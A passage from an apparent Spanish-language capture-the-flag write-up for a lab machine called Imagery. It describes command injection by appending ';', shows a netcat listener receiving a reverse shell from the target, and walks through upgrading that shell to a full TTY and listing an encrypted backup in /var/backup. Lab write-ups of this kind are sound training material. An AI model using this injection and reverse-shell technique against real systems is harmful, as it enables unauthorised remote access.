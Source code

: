 Hay que realizar otra `;` al final para concatenar otro comando que se estaba ejecutando por detras, ya que si no, da error, pero antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos la peticion con ese `payload` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.11.88] 41506
bash: cannot set terminal process group (1334): Inappropriate ioctl for device
bash: no job control in this shell
web@Imagery:~/web$ whoami
whoami
web
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user mark

Si investigamos un poco veremos que hay un directorio bastante interesante que es el siguiente:

```shell
ls -la /var/backup/
```

Info:

```
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```
